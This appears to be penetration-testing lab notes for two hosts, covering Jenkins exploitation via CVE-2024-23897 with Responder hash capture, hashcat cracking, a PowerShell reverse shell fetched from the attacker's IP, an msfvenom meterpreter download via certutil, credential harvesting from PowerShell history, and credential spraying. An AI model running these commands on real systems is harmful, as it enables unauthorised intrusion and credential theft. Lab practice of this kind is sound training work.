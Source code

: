 # 101
- Run `whatweb http://192.168.133.101:8080/login?from=%2F` will show `Jenkins version 2.150.2` is running.![[Pasted image 20240315172240.png]]
- Jenkins CLI arbitrary read (CVE-2024-23897 applies to versions below 2.442 and LTS 2.426.3)
- `sudo responder -I tun0 -A`
- `java -jar jenkins-cli.jar -s http://192.168.133.101:8080  who-am-i "@\\\\192.168.49.133\\test"`
- ![[Pasted image 20240316082626.png]]
- `hashcat -m 5600 nate.hash nate.hash /usr/share/wordlists/rockyou.txt --force` to recover plaintext credential as `oscp/nate:mariposa`![[Pasted image 20240316082851.png]]
- Use `nate:mariposa` to login to the `jenkins` server.![[Pasted image 20240316084026.png]]
- Navigate to `http://192.168.133.101:8080/script` 
	- Set up web server and netcat listener
	- Run`def process = "powershell.exe -nop -w hidden -c iex(iwr http://192.168.49.133/Windows/nishang/Shells/Invoke-PowerShellTcp.ps1 -UseBasicParsing); Invoke-PowerShellTcp -Reverse -IPAddress 192.168.49.133 -Port 443".execute()` within the `Script Console` to spawn a reverse shell.
	- ![[Pasted image 20240316084758.png]]![[Pasted image 20240316085000.png]]
- Upgrade shell
	- `msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.49.133 lport=443 -f exe -o met.exe`![[Pasted image 20240316092448.png]]
	- `certutil -urlcache -f http://192.168.49.133/met.exe met.exe`![[Pasted image 20240316092423.png]]
	- ![[Pasted image 20240316092656.png]]
	- ![[Pasted image 20240316092808.png]]
	- ![[Pasted image 20240316092916.png]]
	- Potential passwords and users at `C:\Users\administrator\appdata\roaming\Microsoft\windows\powershell\psreadline\ConsoleHost_history.txt`.![[Pasted image 20240316110226.png]]
	- Spraying the credential can find valid pair as `oscp\kate:Hard4Core8!` and the user have winrm access to `102`![[Pasted image 20240316110328.png]]
# 102
![[Pasted image 20240316110559.png]]
![[Pasted image 20240316110653.png]]
![[Pasted image 20240316114213.png]]
